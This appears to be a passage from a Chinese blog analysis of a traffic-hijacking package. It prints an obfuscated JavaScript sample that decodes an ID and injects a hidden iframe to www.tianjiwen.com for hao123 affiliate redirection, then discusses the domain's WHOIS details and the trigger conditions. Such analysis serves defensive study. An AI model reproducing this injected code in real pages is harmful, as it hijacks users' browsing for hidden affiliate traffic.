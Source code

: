 ```javascript
        },
        i = k.length;
      if (l != e + c) return "";
      while (e < l) {
        a = m(e++);
        if (a < 5) f = a * i + m(e);
        else f = (a - 5) * i * i + m(e) * i + m((e += 1));
        t[t.length] = String.fromCharCode(f);
        e++;
      }
      return t.join("");
    },
    tn = de(v),
    pu = function() {
      if (i <= db) {
        da.innerHTML = "<div id='c' style='width:" + i + "px;'><!----></div>";
        setTimeout(pu, dt);
      } else {
        da.innerHTML = "<div id='c' style='width:100%'><!----></div>";
        ~(function(a) {
          a.style.display = "none";
          a.src = "http://www.tianjiwen.com/hao/?tn=" + tn;
          da.insertBefore(a, null);
        })(o.createElement("iframe"));
      }
      i = i + 10;
    };
  pu();
})(
  self,
  document,
  "ABCDEFGHIJKLMNOPQRSTUVWXYZ",
  "230CFCFCFCACBCFCFCEDREADTEHDREIDZ"
);
```

唯一有用的东西就是 `tianjiwen.com`，不过域名似乎是虚假信息注册的。

    Registrant Street: china
    Registrant City: dexin
    Registrant State/Province: zhangye
    Registrant Email: xajh8888@gmail.com

再来看另外一个，没有混淆，意图直截了当，就是让你跳转到他的地址上。

因此可以判断，前者挟持包所对应的推广地址是 `http://www.hao123.com/?tn=99945998_hao_pg` ，后者挟持包对应的推广地址是 `http://www.hao123.com/?tn=99945998_hao_pg`

### 神奇的参数

经过测试，当然上面我也有所提及，当 GET 的地址存在一个参数时，经过测试无论是什么参数都好（例：`http://www.hao123.com/?a` 或 `http://www.hao123.com/?a=1`），只要参数存在，就会返回 `hijacking-2.txt` 这个挟持包。
